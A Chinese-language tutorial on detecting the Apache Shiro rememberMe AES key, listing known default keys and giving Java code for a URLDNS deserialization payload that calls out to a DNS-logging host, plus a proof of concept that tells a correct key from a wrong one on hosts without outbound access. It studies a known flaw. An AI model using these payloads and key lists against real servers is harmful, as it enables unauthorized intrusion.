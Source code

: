 # Shiro之key的检测

## 前言

在说 key 的检测之前，先聊聊现在工具普遍用到的 key 吧。相信在了解 shiro 之前，大家都曾用过网上公开的 shiro 利用工具，其中对于 key 的检测，普遍采用的字典的形式进行爆破，这里列举几个在字典中存在的 key：
```
kPH+bIxk5D2deZiIxcaaaA==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
4AvVhmFLUs0KTA3Kprsdag==
5aaC5qKm5oqA5pyvAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
......
```

第一个大家应该都眼熟了，是 1.2.4 版本的默认 CipherKey，那其他 CipherKey 是哪里来的呢？网上有几种观点：

- 一个框架配置了某一个 Shiro CipherKey，大家写的项目都用到了该框架；
- 大家的项目互相抄来抄去，对于 CipherKey 并未修改；
- 见到其他项目使用该 CipherKey，也沿袭着使用了；
- ......

我们尝试在 github 上搜索其中一个 CipherKey 试试
![image-20221023221126506](images/image-20221023221126506.png)

发现大部分项目都是使用了同一个 CipherKey，缘，妙不可言~

言归正传，说回 Key 的检测，第一想法都是用 URLDNS 这条链子来进行检测。但实战环境中，很多时候遇上的主机都是不出网，这种情况如何解决呢？

L1NK3R 师傅提出的只依赖于 Shiro 本身，在 Key 检测正确时返回 deleteMe，错误情况时返回 deleteMe 的方法，解决了上述不出网的情况。下面就逐个进行学习一下。

## 基于URLDNS的检测方法

通过前面的学习，听到该方法名字应该都已经懂如何构造了，先通过学习的 URLDNS 链生成文件
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://851bdcd2.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

}
```

再通过 Shiro 的`AesCipherService()`方法对前面生成的文件进行 AES 加密得到 payload
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

添加到 rememberMe 字段发送 payload
![image-20221024055133461](images/image-20221024055133461.png)

最后执行反序列化流程，执行 URLDNS 链，发起 DNS 请求，打开平台看到已经收到了请求数据。
![image-20221024055148343](images/image-20221024055148343.png)

## 基于Shiro本身的检测方法

经过测试我们可以看到，在登录后携带正常的 rememberMe 发送请求并不会在返回包中存在`rememberMe=deleteMe`，但使用正确或者错误的 CipherKey 加密构造的 rememberMe 在发送请求后，都会在返回包中看到`rememberMe=deleteMe`的响应头。

那么如果我们能够使正确的 CipherKey 加密的 payload 执行后不回显`deleteMe`，错误的 CipherKey 加密的则回显`deleteMe`，那就能达到检测 CipherKey 是否正确的目的。

接下来的任务就是看看 CipherKey 正确和错误的情况下，流程是怎么走的，进行对比和分析。

### 密钥错误

我们把断点打在最后的`AbstractRememberMeManager#deserialize()`方法处，然后用一个错误的 CipherKey 加密 URLDNS 的链子，发送请求
![image-20221024045034551](images/image-20221024045034551.png)

接在跟进`decrypt()`方法直到`crypt()`方法
![image-20221024045303583](images/image-20221024045303583.png)

在这里开始因为 CipherKey 错误抛出异常，在`getRememberedPrincipals()`方法中被捕获异常
![image-20221024045432663](images/image-20221024045432663.png)

这里调用到了`onRememberedPrincipalFailure()`方法，跟进该方法
![image-20221024045929862](images/image-20221024045929862.png)

接着调用了`forgetIdentity()`方法
![image-20221024050022401](images/image-20221024050022401.png)

继续跟进`forgetIdentity(request, response)`方法
![image-20221024050046499](images/image-20221024050046499.png)

调用到了`removeFrom()`方法，继续跟进`removeFrom()`方法
![image-20221024050136826](images/image-20221024050136826.png)

可以看到，在该方法中定义了`deleteMe`字段并添加到响应头中

### 密钥正确

因为 CipherKey 正确，所以这里进入了`doFinal()`方法，不会抛出异常
![image-20221024050454922](images/image-20221024050454922.png)

然后一层层返回，最后到了 `return this.deserialize()`方法
![image-20221024050745000](images/image-20221024050745000.png)

跟进`deserialize()`方法
![image-20221024050817471](images/image-20221024050817471.png)

这里可以看到最后套了一层`(PrincipalCollection)`将返回的类转换成`PrincipalCollection`类，但转换失败，被`getRememberedPrincipals()`捕获了异常
![image-20221024051026334](images/image-20221024051026334.png)

接下来就是跟前面一样进入到了`removeFrom()`方法
![image-20221024051128859](images/image-20221024051128859.png)

至此，弄懂了 CipherKey 无论正确与否，进行加密的链子都会返回`deleteMe`的原因。

### 编写POC

既然在 CipherKey 正确情况下，是因为类型强转导致的进入`removeFrom()`方法，那么我们只要将序列化的对象继承于`PrincipalCollection`类即可，那就找一下`PrincipalCollection`类的实现类![image-20221024051738473](images/image-20221024051738473.png)

这里选择`SimplePrincipalCollection`类或者`SimplePrincipalMap`类都可以

```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.subject.SimplePrincipalCollection;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(simplePrincipalCollection), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(Object obj) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```

密钥✅的情况：
![image-20221024055251820](images/image-20221024055251820.png)

密钥❎的情况：
![image-20221024055335648](images/image-20221024055335648.png)
